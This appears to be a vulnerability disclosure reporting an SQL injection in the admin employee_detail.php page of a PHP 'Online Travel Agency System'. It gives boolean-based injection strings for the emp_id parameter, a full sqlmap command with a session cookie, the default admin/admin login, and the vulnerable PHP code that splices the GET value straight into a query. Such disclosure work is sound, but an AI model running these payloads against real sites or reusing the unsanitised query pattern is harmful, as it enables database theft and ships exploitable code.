



# [Online Travel Agency System-SQL Injection-employee_detail.php]

## Basic Information

**[Bug Reporter]:**  DililLearngent

**[Application Vendors]:**  https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Test Environment]:**  windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://10.142.221.111/Travel/admin/employee_detail.php?emp_id=66`    

**[Vulnerability Location]:** Travel/admin/employee_detail.php

**[Vulnerability Test]:**

1. When you enter `66%27%20and%20%271%27=%271` in the `emp_id` parameter, the page displays as follows:

   

   

2. When you enter `66%27%20and%20%271%27=%272` in the `emp_id` parameter, the page displays as follows:

   

3. Testing with sqlmap

   ```
   python sqlmap.py -u "http://10.142.221.111/Travel/admin/employee_detail.php?emp_id=66" --cookie="PHPSESSID=25ljgqv0ko3gcoh9pgvutde2v2" --current-db
   ```

   

**[code analysis]:**

Travel/admin/employee_detail.php

```php
<?php
  $sql="select*from employee where emp_id='$_GET[emp_id]'";
$result=mysqli_query($con,$sql) or die(mysqli_error($con));
while($row=mysqli_fetch_array($result))
{
	$emp_picture=$row['emp_picture']; 
	$emp_id=$row['emp_id'];
	$emp_name=$row['emp_name'];
	$emp_contact=$row['emp_contact'];
	$emp_address=$row['emp_address'];
	$emp_reference=$row['emp_reference'];
	$emp_email=$row['emp_email'];
	$emp_join=$row['emp_join'];
	$emp_close=$row['emp_close'];;
	$inserted_by=$row['inserted_by'];
}
?>
  
<h1 align="center"> ALMOQADAS TRAVEL AGENCY ::: EMPLOYEE</h1>
<form name="form1">
<div align="center" style="border:1px solid #333; width:850px; margin:0 auto;">
<p>" alt="" width="111" height="132">


<table width="auto" height="auto" border="1" style="bar.css">
  <tr>
    <td height="41">ID</td>
    <td>NAME</td>
    <td>CONTACT</td>
    <td>ADDRESS</td>
    <td>REFERENCE</td>
    <td>EMAIL</td>
    <td>JOIN DATE</td>
    <td>LEAVING DATE</td>
  </tr>
  <tr>
    <td><?php echo $emp_id;?></td>
    <td><?php echo $emp_name;?></td>
    <td><?php echo $emp_contact;?></td>
    <td><?php echo $emp_address;?></td>
    <td><?php echo $emp_reference;?></td>
    <td><?php echo $emp_email;?></td>
    <td><?php echo $emp_join;?></td>
    <td><?php echo $emp_close;?></td>
   
  </tr>
</table>
</div>
<input type="button" value="print" onclick="window.print() ;" />
</form>
```

The GET parameter `emp_id` is obtained without any filtering and spliced directly into the sql execution statement, and then a different page response exists depending on the result of the execution.